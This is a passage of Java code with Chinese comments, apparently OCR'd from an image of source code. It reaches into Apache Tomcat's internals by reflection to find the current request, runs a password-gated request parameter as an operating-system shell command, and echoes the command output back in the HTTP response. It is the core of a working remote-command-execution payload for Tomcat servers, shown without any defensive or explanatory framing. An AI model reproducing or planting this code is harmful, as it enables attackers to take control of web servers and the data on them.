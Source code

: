 ```java
                    //获取protocolHandler、connectionHandler
                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                    java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler", null);
                    getHandlerMethod.setAccessible(true);
                    org.apache.tomcat.util.net.AbstractEndpoint.Handler connectionHandler = (org.apache.tomcat.util.net.AbstractEndpoint.Handler) getHandlerMethod.invoke(protocolHandler, null);

                    //获取RequestGroupInfo
                    java.lang.reflect.Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
                    globalField.setAccessible(true);
                    org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(connectionHandler);

                    //获取RequestGroupInfo中储存了RequestInfo的processors
                    java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                    processorsField.setAccessible(true);
                    java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                    for (int k = 0; k < list.size(); k++) {
                        org.apache.coyote.RequestInfo requestInfo = (org.apache.coyote.RequestInfo) list.get(k);
                        if (requestInfo.getCurrentQueryString().contains(pass)) {
                            //获取request
                            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
                            requestField.setAccessible(true);
                            org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(requestInfo);
                            org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                            //执行命令
                            String cmd = request.getParameter(pass);
                            if (cmd != null) {
                                String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                String output = s.hasNext() ? s.next() : "";
                                //回显
                                java.io.Writer writer = request.getResponse().getWriter();
                                java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                usingWriter.setAccessible(true);
                                usingWriter.set(request.getResponse(), Boolean.FALSE);
                                writer.write(output);
                                writer.flush();
                            }
                            break;
                        }
                        break;
                    }
                    break;
                }
            }
        }
        catch (Exception e) {
        }
    }
```